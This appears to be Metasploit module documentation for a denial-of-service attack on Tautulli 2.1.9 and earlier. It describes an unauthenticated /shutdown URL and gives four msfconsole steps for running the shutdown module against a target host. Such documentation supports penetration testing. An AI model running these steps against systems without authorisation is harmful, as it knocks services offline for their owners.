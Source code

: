## Vulnerable Application
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the `/shutdown` URL in applications that do
not have a user login area enabled.

## Scenario

![72550314-80cd8a00-38a3-11ea-9bad-942668a29390](https://user-images.githubusercontent.com/15425071/72602337-29bdc880-3928-11ea-8aec-ddadb3ff4f2d.png)

## Verification Steps :

List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
